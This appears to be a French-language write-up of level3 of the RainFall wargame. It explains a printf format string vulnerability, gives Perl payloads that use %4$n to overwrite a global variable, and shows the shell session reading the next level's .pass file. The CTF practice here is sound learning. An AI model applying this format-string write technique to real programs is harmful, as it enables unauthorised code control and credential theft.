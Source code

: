 # level3

La faille semble être un **format string vulnerability**.

On a utilisé [cette source](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b), entre autres, pour plus d'information.

Comme l'input utilisateur n'est pas vérifié on peut utiliser les formateurs de la fonction printf pour parvenir à nos fins.

On remarque avec ce payload :
`AAAA %p %p %p %p %p %p %p %p`
Que notre contenu AAAA est affiché sur le 4e bloc de mémoire (0x41414141) :
`AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520`

On a la possibilité d'utiliser l'opérateur `n` qui permet normalement d'écrire le nombre de caractères écrits jusqu'à présent dans une variable en argument.

On peut spécifier sur quel argument écrire cette valeur avec un format de ce type : `%x$n` ou `x` représente la position de l'argument.

Dans notre cas, nous avons déjà l'adresse de la valeur à modifier : `0x804988c`.

L'idée serait donc de mettre cette adresse en premier lieu, pour pouvoir écrire sur cet emplacement:

```perl -e 'print "\x8c\x98\x04\x08"."%4\$n"' > /tmp/payload```



Ceci ne nous donne pas encore le résultat voulu car nous n'avons pas écrit la bonne valeur à l'adresse de la variable globale.

Il nous suffit donc de rajouter des caractères de façon à atteindre la valeur souhaité (64) :

```perl -e 'print "\x8c\x98\x04\x08"."A"x60 . "%4\$n"' > /tmp/payload```



En le lançant de manière à garder la main on peut enfin obtenir le bon flag !

```
level3@RainFall:~$ cat /tmp/payload - | ./level3 

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
